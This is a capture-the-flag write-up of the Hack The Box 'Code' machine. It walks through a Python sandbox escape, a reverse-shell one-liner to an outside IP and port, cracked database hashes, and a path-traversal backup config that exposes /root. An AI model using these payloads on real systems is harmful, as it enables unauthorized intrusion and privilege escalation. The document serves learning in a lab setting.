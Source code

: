 ```yaml
---
layout: post
title: HTB - Code (Easy)
permalink: /htbcode
---
```


We begin with an `nmap` scan, which reveals the following open ports:

- **22/tcp** – SSH  
- **5000/tcp** – HTTP

## Owning User

### Web Enumeration & Python Sandbox Escape

On port **5000**, we find a web application that provides access to a restricted Python interpreter. The sandbox environment blacklists critical keywords, making typical exploitation attempts fail.

To bypass the blacklist, we use a known Python sandbox escape technique that leverages Python's class hierarchy introspection to access dangerous modules indirectly:

```python
subclasses = (()).__class__.__mro__[-1].__subclasses__()
```

This provides access to all subclasses of Python’s `object`. Searching through the list, we find that the subclass at index `317` is `Popen`, which can be used to spawn a reverse shell:

```python
subclasses[317](['bash', '-c', 'bash -i >& /dev/tcp/10.10.14.127/6969 0>&1'])
```

We set up a listener and catch a reverse shell, gaining access to the machine as a low-privileged user. From here, we read `user.txt`.

## Owning Root

### SQLite Database Enumeration

While exploring the instance, we find an SQLite database file. Dumping the `users` table reveals two MD5 hashes:

```
759b74ce43947f5f4c91aeddc3e5bad3  --> development  
3de6f30c4a09c27fc71932bfc68474be  --> nafeelswordsmaster
```

Cracking the hashes gives us plaintext credentials. We use these to SSH into the machine as user **martin**.

### Privilege Escalation via backy.sh

Running `sudo -l` as **martin**, we find:

```
(ALL) NOPASSWD: /usr/bin/backy.sh
```

This script accepts a JSON configuration and archives specified directories. We craft the following configuration to perform a path traversal attack and include the `/root` directory:

```json
{
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/../root/"
  ]
}
```

We execute the script with `sudo`, and it creates an archive containing files from `/root/`. Extracting the archive allows us to access `root.txt`.